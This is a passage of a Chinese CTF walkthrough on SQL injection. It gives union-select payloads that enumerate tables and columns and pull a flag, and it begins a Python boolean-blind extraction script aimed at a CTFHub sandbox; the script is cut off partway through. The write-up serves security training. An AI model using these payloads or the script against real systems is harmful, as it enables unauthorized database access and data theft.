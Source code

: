查找数据库

![image-20230828102728848](https://img1.imgtp.com/2023/09/03/JBBVGHyv.png)

查找表

```sql
' union select 1,group_concat(table_name) from information_schema.tables where table_schema='sqli' #
```

![image-20230828103106251](https://img1.imgtp.com/2023/09/03/TrrRSNLh.png)

查找列

```sql
' union select 1,group_concat(column_name) from information_schema.columns where table_name='flag' #
```

![image-20230828103437081](https://img1.imgtp.com/2023/09/03/JEAk0kaQ.PNG)

查找列内容

```sql
' union select 1,group_concat(flag) from sqli.flag #
```

![image-20230828103726958](https://img1.imgtp.com/2023/09/03/QjMbTgoi.png)

### 06 sql注入之报错型注入



### 07 sql注入之布尔盲注

```python
import requests
import time

urlOPEN = 'http://challenge-45c8b825d982f37a.sandbox.ctfhub.com:10800/?id='
starOperatorTime = []
mark = 'query_success'
#成功显示结果


def database_name():
    name = ''
    for j in range(1, 5):
        for i in 'sqcwertyuioplkjhgfdazxvbnm':
            url = urlOPEN + 'if(substr(database(),%d,1)="%s",1,(select table_name from information_schema.tables))' % (
            j, i)
            # print(url+'%23')
            r = requests.get(url)
            if mark in r.text:
                name = name + i

                print(name)

                break
    print('database_name:', name)


database_name()


def table_name():
```